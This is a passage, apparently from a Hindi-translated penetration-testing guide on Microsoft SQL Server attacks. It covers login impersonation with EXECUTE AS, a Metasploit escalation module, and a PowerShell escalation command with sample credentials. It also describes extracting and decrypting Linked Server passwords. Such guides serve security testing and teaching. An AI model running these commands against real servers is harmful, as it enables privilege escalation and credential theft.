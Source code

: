 ध्यान दें कि एक बार जब आप sysadmin बन जाते हैं, तो आप किसी अन्य की नकल कर सकते हैं:
```sql
-- Impersonate RegUser
EXECUTE AS LOGIN = 'RegUser'
-- Verify you are now running as the the MyUser4 login
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
-- Change back to sa
REVERT
```
आप इस हमले को **metasploit** मॉड्यूल के साथ कर सकते हैं:
```bash
msf> auxiliary/admin/mssql/mssql_escalate_execute_as
```
या **PS** स्क्रिप्ट के साथ:
```powershell
# https://raw.githubusercontent.com/nullbind/Powershellery/master/Stable-ish/MSSQL/Invoke-SqlServer-Escalate-ExecuteAs.psm1
Import-Module .Invoke-SqlServer-Escalate-ExecuteAs.psm1
Invoke-SqlServer-Escalate-ExecuteAs -SqlServerInstance 10.2.9.101 -SqlUser myuser1 -SqlPass MyPassword!
```
## MSSQL का उपयोग करना स्थिरता के लिए

[https://blog.netspi.com/sql-server-persistence-part-1-startup-stored-procedures/](https://blog.netspi.com/sql-server-persistence-part-1-startup-stored-procedures/)

## SQL Server Linked Servers से पासवर्ड निकालना

एक हमलावर SQL Server Linked Servers के पासवर्ड को SQL Instances से निकाल सकता है और उन्हें स्पष्ट पाठ में प्राप्त कर सकता है, जिससे हमलावर को ऐसे पासवर्ड मिलते हैं जिनका उपयोग लक्ष्य पर अधिक पकड़ बनाने के लिए किया जा सकता है। Linked Servers के लिए संग्रहीत पासवर्ड को निकालने और डिक्रिप्ट करने के लिए स्क्रिप्ट [यहाँ](https://www.richardswinbank.net/admin/extract\_linked\_server\_passwords) मिल सकती है।

इस एक्सप्लॉइट के काम करने के लिए कुछ आवश्यकताएँ और कॉन्फ़िगरेशन किए जाने चाहिए। सबसे पहले, आपके पास मशीन पर व्यवस्थापक अधिकार होना चाहिए, या SQL Server कॉन्फ़िगरेशन प्रबंधित करने की क्षमता होनी चाहिए।

अपने अनुमतियों को मान्य करने के बाद, आपको तीन चीजें कॉन्फ़िगर करनी होंगी, जो निम्नलिखित हैं:

1. SQL Server इंस्टेंस पर TCP/IP सक्षम करें;
2. एक स्टार्ट अप पैरामीटर जोड़ें, इस मामले में, एक ट्रेस फ्लैग जोड़ा जाएगा, जो -T7806 है।
3. दूरस्थ व्यवस्थापक कनेक्शन सक्षम करें।

इन कॉन्फ़िगरेशनों को स्वचालित करने के लिए, [यह रिपॉजिटरी](https://github.com/IamLeandrooooo/SQLServerLinkedServersPasswords/) आवश्यक स्क्रिप्ट रखती है। प्रत्येक कॉन्फ़िगरेशन के चरण के लिए एक पावरशेल स्क्रिप्ट होने के अलावा, रिपॉजिटरी में एक पूर्ण स्क्रिप्ट भी है जो कॉन्फ़िगरेशन स्क्रिप्ट और पासवर्ड के निष्कर्षण और डिक्रिप्शन को संयोजित करती है।

इस हमले के बारे में अधिक जानकारी के लिए, निम्नलिखित लिंक देखें: [MSSQL डेटाबेस लिंक सर्वर पासवर्ड डिक्रिप्ट करना](https://www.netspi.com/blog/technical/adversary-simulation/decrypting-mssql-database-link-server-passwords/)
